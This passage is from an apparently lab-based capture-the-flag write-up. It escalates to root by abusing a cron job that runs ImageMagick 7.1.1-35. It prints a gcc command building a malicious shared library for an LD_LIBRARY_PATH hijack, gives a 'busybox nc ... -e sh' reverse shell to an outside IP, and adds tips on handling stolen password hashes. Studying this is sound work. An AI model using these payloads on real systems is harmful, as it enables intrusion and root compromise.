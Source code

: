 This script clears the file "metadata.log", finds all jpg files within `/opt/app/static/assets/images/`, and passes the output to `magick identify` to collect metadata and store it in the metadata.log file. 

This code seems to be performing maintenance tasks, so there's a good chance it is executed every few minutes or so. Since I didn't find any cron jobs under developer, I thought root might have had one. To test this, we can continuously monitor the **metadata.log** file using `tail -f` and see if any changes are made. After waiting a while, we get the following output:

![[Pasted image 20250315152642.png]]

Line 2 of the above script executes the `truncate` command to clear metadata.log. In the output here, `tail` tells me that the file was truncated, meaning that root must have a cron job. Given this, that would mean that `magick` would also be executed with root privileges.

After running `magick -version`, we are told that the version is `7.1.1-35`. Looking online for a potential exploit, I found [a github page](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) detailing an arbitrary code execution vulnerability within that specific version of the program. 

Essentially, the problem lies within the LD_LIBRARY_PATH environment variable. This variable tells the linker to look for shared libraries in the paths specified there first before looking in default locations like `/usr/lib`. Because it is set incorrectly, the variable points to the current working directory, meaning an attacker can create malicious .so files and have the binary execute them when it runs. 

The article also gives us the following command to create the malicious .so file:

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

Let's run `tail -f metadata.log` again to see how this new .so file affects the log. After waiting a while, we get:

![[Pasted image 20250315184523.png]]

Great, so we know that our library worked. Now to get a reverse shell, we change the command to `busybox nc 10.10.14.9 9001 -e sh` and wait until the crontab executes once more:

![[Pasted image 20250315185809.png]]

That's it. We have rooted the box. 
<br>
<br>
# Skills Learned
* The PBKDF2 hashing algorithm outputs the result in binary data, not hex. There are many other algorithms that do this, and the common standard practice for developers is to convert it into hex for storage. When stealing hashes of this format, and you need to encode it to base64 or some other format, make sure to **convert** the hash to **raw bytes** first, or find an online converter that can convert straight from hex
* `tail -f <file>` **monitors how a file changes over time** (e.g log files). If you don't find any interesting cron jobs, but you see an interesting **script** that seems to perform maintenance tasks (or if you find unusual changes within a directory or file you haven't made), you should **inspect** its contents to find out if it **modifies** any files you have read permissions over, then run the command on that file to **track changes**.
